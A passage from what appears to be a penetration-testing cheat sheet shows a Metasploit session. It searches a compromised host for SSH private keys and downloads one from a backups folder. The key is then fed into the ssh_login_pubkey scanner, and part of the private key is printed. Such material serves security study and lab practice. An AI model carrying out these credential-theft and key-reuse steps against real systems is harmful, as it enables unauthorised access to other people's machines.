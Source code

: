 `$ cat /etc/xinetd.d/telnet`

`$ cat /etc/xinetd.d/stelnet`

## 02 - Metasploit

### 2.1 - SSH Keys

```
meterpreter > search -f authorized_keys -d /
No files matching your search were found.
meterpreter > search -f id_rsa -d /
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
/backups/supersecretkeys/id_rsa  2590          2020-06-17 23:20:44 -0400

meterpreter > download /backups/supersecretkeys/id_rsa /home/user/.ssh/id_rsa
[*] Downloading: /backups/supersecretkeys/id_rsa -> /home/user/.ssh/id_rsa
[*] Downloaded 2.53 KiB of 2.53 KiB (100.0%): /backups/supersecretkeys/id_rsa -> /home/user/.ssh/id_rsa
[*] download   : /backups/supersecretkeys/id_rsa -> /home/user/.ssh/id_rsa
meterpreter > bg
[*] Backgrounding session 1...
msf6 post(multi/gather/ssh_creds) > use auxiliary/scanner/ssh/ssh_login_pubkey
msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PASS                           no        Passphrase for SSH private key(s)
   KEY_PATH                           no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub
                                                " will be skipped. Duplicate private keys will be ignored.
   PRIVATE_KEY                        no        The string value of the private key that will be used. If you are using MSFConsole, this value shou
                                                ld be set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login_pubkey) > set private_key file:/home/user/.ssh/id_rsa
private_key => -----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzSWvqfxeIpTuFmdAFyWDQho0h8ud3g9zSJ32pjosNcTQJe3/kYC4
B5hMlfIXzH5oKn9YRn55O10RYxppZpXFsc4H7pYquD5TLKLmaH7UqBj9X1WjGeZLexx+f2
kPAcxLkXaPNq0q5kjXyygRi34LvOn/wdpux7T3pGYsG1HmFrb6LVkBIB9B10LtJGv1q6vl
..[snip]..
pOLQNytsDeZNlKoCUZHvj7cHKFzkdDAAAAwQDXGF2W/3zgltz4G362qpBL4lEo3UHpxp52
+IaZ4FX2yKA42rggJW7XSwZvtPIErIRDFxgNW/3Rv/pyzEqFK5+jG606XpeufxfvdD/PWw
nwXur7vpiut49V2ig0UjaQxyjQjNjb29XH2/yhDjLOetTf5ZRhyafnImUzvZ28NArJfdBy
i2bE6UXt34y9lY+X0nG7V2rfQFBf4kbV/4Kz0uMyUXN2SvEzcxO+4WGILSQFj+x9MsY0YE
```